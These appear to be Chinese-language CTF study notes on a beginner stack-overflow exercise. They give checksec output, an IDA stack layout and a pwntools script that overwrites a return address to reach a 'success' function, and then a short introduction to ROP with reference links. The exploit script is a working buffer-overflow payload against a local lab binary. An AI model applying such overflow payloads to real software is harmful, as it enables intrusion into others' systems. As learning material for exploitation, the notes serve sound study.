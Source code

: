 ```bash
$ checksec example
[*] '/home/kali/CTF/pwn/example'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- IDA中vulnerable函数的栈显示如下：

```assembly
-00000014 s               db 16 dup(?)            ; string(C)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

```python
# coding=utf8   # 这个脚本执行后效果：可以看到 You Hava already controlled it. 字样，是success函数的输出
from pwn import *
# 构造与程序交互的对象
sh = process('./example')
success_addr = 0x08049172 # 这个是在IDA中分析得到的success函数的地址
# 0x14字节对应字符串s和var_4 # 4个b对应保存的寄存器s # 然后紧跟的就是success函数地址 用于覆盖原本的函数返回地址
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr) # 构造payload 
sh.sendline(payload) # 向程序发送字符串
sh.interactive() # 将代码交互转换为手工交互
```








### ROP

> ROP(Return Oriented Programming)   面向返回编程    栈溢出问题
>
> 核心在于利用指令集中的 `ret` 指令，改变了指令流的执行顺序
>
> 参考链接：
>
> https://www.anquanke.com/post/id/85831   【技术分享】现代栈溢出利用技术基础：ROP   
>
> https://zhuanlan.zhihu.com/p/25816426
>
> https://zhuanlan.zhihu.com/p/25892385
>
> https://wooyun.js.org/drops/return2libc%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0.html
>
> https://xz.aliyun.com/t/3402
